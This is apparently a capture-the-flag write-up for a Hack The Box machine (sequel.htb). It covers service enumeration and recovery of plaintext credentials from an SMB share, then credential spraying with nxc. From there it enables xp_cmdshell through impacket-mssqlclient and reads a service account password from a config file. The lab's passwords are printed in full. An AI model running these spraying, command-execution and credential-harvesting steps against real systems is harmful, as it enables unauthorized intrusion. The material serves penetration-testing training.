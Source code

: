 ```shell
                                                                                                   
```

### Port 1433 - SQL
```shell
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.85.135:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.85.135:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
```

### Port 445 - SMB/CIFS
`❯ smbclient '//10.129.166.148/Accounting Department' -U rose`

Download `accounts.xlsx`. The file is corrupted so we need to unzip it and locate the `sharedStrings.xml` file to extract the row data.

- `angela@sequel.htb    // angela       // 0fwz7Q4mSpurIt99`
- `oscar@sequel.htb     // oscar        // 86LxLBMgEWaKUnBG`
- `kevin@sequel.htb     // kevin        // Md9Wlq1E5bZnVDVo`
- `sa@sequel.htb        // sa           // MSSQLP@ssw0rd!`

With the possible credentials found in the excel we can type them in txts and run nxc on them:

`❯ nxc smb sequel.htb -u content/users.txt -p content/passwords.txt --continue-on-success`
```shell
SMB         10.129.166.148  445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
```

## RCE mssqlclient xp_cmdshell as sql_svc

```shell
❯ impacket-mssqlclient 'sequel.htb/sa:MSSQLP@ssw0rd!@sequel.htb'
SQL (sa  dbo@master)> EXEC sp_configure 'xp_cmdshell', '1' 
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> reconfigure
SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------
sequel\sql_svc 
SQL (sa  dbo@master)> exec xp_cmdshell 'type \SQL2019\ExpressAdv_ENU\sql-Configuration.INI'
output                                              
-------------------------------------------------   
...
SQLSVCACCOUNT="SEQUEL\sql_svc"                      
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"                                               
SAPWD="MSSQLP@ssw0rd!"                                                                  
```
